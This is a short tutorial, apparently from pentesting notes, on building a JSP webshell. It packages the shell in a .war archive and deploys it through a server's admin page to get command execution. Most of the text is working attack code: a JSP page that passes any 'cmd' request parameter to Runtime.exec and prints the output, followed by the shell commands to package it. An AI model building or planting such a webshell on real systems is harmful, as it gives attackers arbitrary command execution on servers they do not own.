


Build webshell with jsp
Build a Webshell
we are going to see how we can build a Webshell to gain command execution on the server.
The Webshell will be a .jsp file packaged in a .war file:
• a jsp (Java Server Pages) file for dynamically generated web pages based on HTML, XML, SOAP... jsp is similar to PHP and ASP, but uses Java.
• a war(Web application ARchive) file is a compressed package containing Java-based web components and applications that run on a web server.
1. first we are going to build a jsp Webshell (index.jsp):
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
String cmd = request.getParameter("cmd");
String output = "";
if(cmd != null) {
String s = null;
try {
Process p = Runtime.getRuntime().exec(cmd,null,null);
BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
while((s = sI.readLine()) != null) { output += s+"</br>"; }
} catch(IOException e) { e.printStackTrace(); }
}
%>
<pre><%=output %></pre>
2. now we have to create a directory name webshell and put the file (index.jsp) inside it:
mkdir webshell
cp index.jsp webshell
3. build the war file using jar (provide with java):
cd webshell
jar -cvf ../webshell.war *
deploy the webshell created in the admin page

after deployed we can find it here:

{kind=link}
now if we append /webshell/index.jsp too the url we should have a full functional webshell:

